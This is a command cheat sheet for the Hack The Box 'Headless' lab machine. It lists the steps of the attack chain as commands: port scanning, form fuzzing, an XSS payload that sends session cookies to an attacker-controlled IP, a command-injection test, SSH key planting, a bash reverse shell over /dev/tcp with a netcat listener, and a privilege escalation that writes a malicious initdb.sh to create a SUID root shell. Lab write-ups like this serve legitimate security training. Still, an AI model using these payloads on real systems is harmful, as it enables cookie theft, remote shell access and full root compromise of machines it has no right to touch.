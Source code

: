 # 🧠 HTB: Headless - Command Notes

## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)

## 🔍 Recon

```bash
nmap -p- --min-rate 10000 10.10.11.8
nmap -p 22,5000 -sCV 10.10.11.8
```

## 📂 [Directory Brute Force](HTTP)

```bash
feroxbuster -u http://10.10.11.8:5000
```

## 🔎 Filter Testing / Single Character Fuzzing

```bash
ffuf -u http://10.10.11.8:5000/support \
-d 'fname=0xdf&lname=0xdf&email=0xdf@headless.htb&phone=9999999999&message=FUZZ' \
-w /opt/SecLists/Fuzzing/alphanum-case-extra.txt \
-H 'Content-Type: application/x-www-form-urlencoded' \
-mr 'Your IP address has been flagged'
```

## 🧪 XSS Payload (Cookie Stealer)

```html
<script>var i=new Image(); i.src="http://10.10.14.6/?c="+document.cookie;</script>
```

## 🌐 Host Web Server to Catch Cookie

```bash
python -m http.server 80
```

## 🍪 Manually Set Cookie (in Firefox Dev Tools)

```text
is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```

## 💥 Command Injection Test (Burp Repeater)

```text
date=2023-09-15; id
```

## 🔐 Generate [SSH](SSH) Key

```bash
ssh-keygen -t ed25519 -f key
```

## 📥 Upload Public Key (in initdb.sh or through command injection)

```bash
echo "public_key_content" > ~/.ssh/authorized_keys
```

## 🔑 SSH into Box

```bash
ssh -i key dvir@10.10.11.8
```

## 📤 Reverse Shell Payload (Base Bash Reverse Shell)

```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'
```

(Encode `&` as `%26` for POST requests)

## 📞 Listen for Shell

```bash
nc -lnvp 443
```

## 🐚 Upgrade TTY Shell

```bash
script /dev/null -c bash
# Then:
[CTRL+Z]
stty raw -echo; fg
reset
# Type: screen
```

## 🔎 Check Sudo Permissions

```bash
sudo -l
```

## 📜 Priv-Esc Exploit: Create Malicious `initdb.sh`

```bash
echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/0xdf\nchown root:root /tmp/0xdf\nchmod 6777 /tmp/0xdf' > initdb.sh
chmod +x initdb.sh
```

## ⚙️ Execute `syscheck`

```bash
sudo syscheck
```

## ⬆️ Root Shell

```bash
/tmp/0xdf -p
```

## 🧼 Clean Up and Get Root Flag

```bash
rm /tmp/0xdf
cat /root/root.txt
```